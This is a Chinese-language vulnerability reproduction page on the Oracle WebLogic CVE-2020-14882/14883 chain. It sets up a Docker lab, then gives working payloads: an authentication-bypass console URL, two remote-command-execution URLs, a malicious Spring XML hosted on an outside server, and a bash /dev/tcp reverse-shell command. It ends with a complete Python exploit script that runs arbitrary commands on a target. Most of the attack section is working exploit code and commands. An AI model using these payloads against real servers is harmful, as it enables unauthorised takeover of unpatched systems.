





Weblogic 管理控制台未授权远程命令执行漏洞 CVE-2020-14882+CVE-2020-14883¶
漏洞描述¶
Weblogic是Oracle公司推出的J2EE应用服务器。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。
CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。
参考链接：
- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf
环境搭建¶
Vulhub执行如下命令启动一个Weblogic 12.2.1.3版本的服务器：
docker-compose up -d
启动完成后，访问http://your-ip:7001/console即可查看到后台登录页面。

Xray¶
VulnType "poc-yaml-weblogic-cve-2020-14750/default"
links ["https://www.oracle.com/security-alerts/alert-cve-2020-14750.html"]
weblogic_version "10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0"
漏洞复现¶
首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal

访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码。
此时需要利用到第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过com.tangosol.coherence.mvel2.sh.ShellSession，二是通过com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext。
直接访问如下URL，即可利用com.tangosol.coherence.mvel2.sh.ShellSession执行命令：
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/awesome_poc');")
进入容器，可以发现touch /tmp/awesome_poc已成功执行：

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在com.tangosol.coherence.mvel2.sh.ShellSession类。
com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。
首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如http://example.com/rce.xml：
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg>
<list>
<value>bash</value>
<value>-c</value>
<value><![CDATA[touch awesome_poc_xml]]></value>
</list>
</constructor-arg>
</bean>
</beans>
然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
进入容器，可以发现touch /tmp/awesome_poc_xml已成功执行：

这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。
反弹shell¶
通过漏洞poc反弹shell：
python CVE-2020-14882.py -u http://192.168.174.128:7001 -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1"
监听9999端口，成功接收反弹shell：

漏洞POC¶
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# author: zhzyker
# from: https://github.com/zhzyker/vulmap
# from: https://github.com/zhzyker/exphub
import http.client
import requests
import sys
import argparse
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'
payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='
'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
'(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
'("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
'.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
'{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
'= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
'("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')
def cve_2020_14882(url, cmd):
payload = payload_cve_2020_14882_v12
path = "/console/css/%252e%252e%252fconsole.portal"
headers = {
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
'application/signed-exchange;v=b3;q=0.9',
'Accept-Encoding': 'gzip, deflate',
'Accept-Language': 'zh-CN,zh;q=0.9',
'Connection': 'close',
'Content-Type': 'application/x-www-form-urlencoded',
'cmd': cmd
}
try:
request = requests.post(url + path, data=payload, headers=headers, timeout=10, verify=False)
print(request.text)
except Exception as error:
print("[-] Vuln Check Failed... ...")
print("[-] More Weblogic vulnerabilities in https://github.com/zhzyker/vulmap")
if __name__ == '__main__':
parser = argparse.ArgumentParser(description='Weblogic cve-2020-14882',
usage='use "python %(prog)s --help" for more information',
formatter_class=argparse.RawTextHelpFormatter)
parser.add_argument("-u", "--url",
dest="url",
help="target url (http://127.0.0.1:7001)"
)
parser.add_argument("-c", "--cmd",
dest="cmd",
help="command"
)
args = parser.parse_args()
if not args.url or not args.cmd:
sys.exit('[*] Please assign url and cmd! \n[*] Examples python cve-2020-14882_rce.py -u http://127.0.0.1:7001 -c whoami')
cve_2020_14882(args.url, args.cmd)
开源POC¶
- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan